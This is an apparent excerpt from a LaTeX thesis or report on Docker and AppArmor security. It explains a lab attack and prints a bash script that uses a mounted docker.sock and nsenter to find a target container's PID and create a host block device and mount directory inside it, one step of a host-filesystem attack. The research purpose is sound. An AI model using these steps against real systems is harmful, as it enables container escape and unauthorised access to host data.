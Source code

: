 The second script that is run, 4\_attack\_to\_container\_part1\_mount.sh, is the one which lets the attack to the container begin. It configures the attack, by detecting the running container that will be attacked, finding its container id and its process's PID. The attacker here uses the docker client to detect the containers running on host. This is possible because of the mount of docker.sock to attacker's container at runtime - more information about the docker socket on section \textit{Access to Docker Daemon}. The part of the attack to the container in this script consists of the creation of a special device and a directory inside the container. The device that is created in the container is similar to one on the host - same type, major and minor number which we extracted with the previous script. In script 3\_attack\_to\_host.sh we found out the host's filesystem that contains the directory restricted\_area. We then found out the path on which that filesystem is mounted at and which subdirectory of that filesystem is mounted at the same path. That subdirectory is the identical device of the one created on the container. The purpose of this device's creation will be explained on the next script.

What makes it possible for the attacker to see host's devices is the flag --device /dev/vda1 - we used this flag in docker run a priori but in fact that requires a pre-research about which device will be used at script 3\_attack\_to\_host.sh on behalf of the attacker. Moreover, the creation of the device on the container requires capability mknod which is allowed by the AppArmor profile enforced.

\begin{lstlisting}[style=bashscript, caption={4\_attack\_to\_container\_part1\_mount.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#List all running containers and keep the one including the name attacked_nsenter
docker ps | grep attacked_nsenter > dockerps
#Keep the container's id
cut -d' ' -f1 dockerps > containerid
container_id=$(cat containerid)
#Find the pid of the container's process
docker inspect --format {{.State.Pid}} ${container_id} > PID
container_pid=$(cat PID)

#Files from script 3_attack_to_host.sh
major=$(cat major_num)
minor=$(cat minor_num)
dev="/dev/$(cat sdev_of_fs)"

#Done by attacker inside host
#Attack the container using nsenter
#Create a special device
nsenter --target ${container_pid} --mount --pid mknod --mode 0600 ${dev} b ${major} ${minor}
#Create a directory - /tmpmount
nsenter --target ${container_pid} --mount --pid mkdir -p /tmpmount
\end{lstlisting}

